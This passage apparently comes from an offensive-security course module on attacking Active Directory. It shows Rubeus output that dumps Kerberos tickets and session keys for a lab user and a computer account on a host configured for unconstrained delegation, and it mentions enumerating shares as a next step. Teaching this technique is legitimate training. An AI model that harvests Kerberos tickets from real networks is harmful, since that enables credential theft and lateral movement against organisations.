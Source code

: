 ```
    UserName                 :  adam
    UserRealm                :  CORP.COM
    StartTime                :  5/12/2023 3:28:56 AM
    EndTime                  :  5/12/2023 1:28:56 PM
    RenewTill                :  5/19/2023 3:28:56 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  uURS1MVAicyL8xxI7L9RjWllYeTTUVuOl13zKTQeE9c=
    Base64EncodedTicket   :

      doIFajCCBWagAwIBBaEDAgEWoo...


    ServiceName              :  LDAP/DC01.corp.com/corp.com
    ServiceRealm             :  CORP.COM
    UserName                 :  adam
    UserRealm                :  CORP.COM
    StartTime                :  5/12/2023 3:28:56 AM
    EndTime                  :  5/12/2023 1:28:56 PM
    RenewTill                :  5/19/2023 3:28:56 AM
    Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  MCUmxxuchKnUNEkYfQAJgdipOy4SjPJGOZxzV2UZgws=
    Base64EncodedTicket   :

      doIF5jCCBeKgAwIBBaEDAgEWoo...

  UserName                 : FILES01$
  Domain                   : CORP
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 5/12/2023 1:57:59 AM
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        :  FILES01$@corp.com
...
```

> Listing 2 - Dumping existing tickets on FILES01 with Rubeus

We find TGTs and TGSs related to the _adam_ user along with the computer account, but no other domain users.

Typically, a machine would only be configured with unconstrained delegation because it hosts an application that requires it. In this case, given the target name, users most likely access shares on the machine via _CIFS_.[6](https://portal.offsec.com/courses/pen-300-9502/learning/attacking-active-directory-52291/attacking-active-directory-52395#fn-local_id_677-6)

We can verify this by enumerating shares on the machine. The **net share** command shows the available shares.
